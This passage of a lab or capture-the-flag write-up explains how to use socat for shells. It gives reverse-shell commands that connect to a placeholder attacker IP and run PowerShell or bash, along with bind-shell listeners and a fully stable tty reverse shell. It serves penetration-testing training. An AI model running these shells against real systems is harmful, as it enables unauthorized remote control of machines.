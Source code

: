`stty cols 238`

2. What is the syntax for setting up a Python3 webserver on port 80?

`sudo python3 -m http.server 80`

## Task 6 Socat

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

**Reverse Shells**

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat: `socat TCP-L:<port> -`

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

**Bind Shells**

On a Linux target we would use the following command: `socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax: `socat TCP-L:<port> FILE:`tty`,raw,echo=0`

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are allocating a new tty, and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and allocating a full tty.
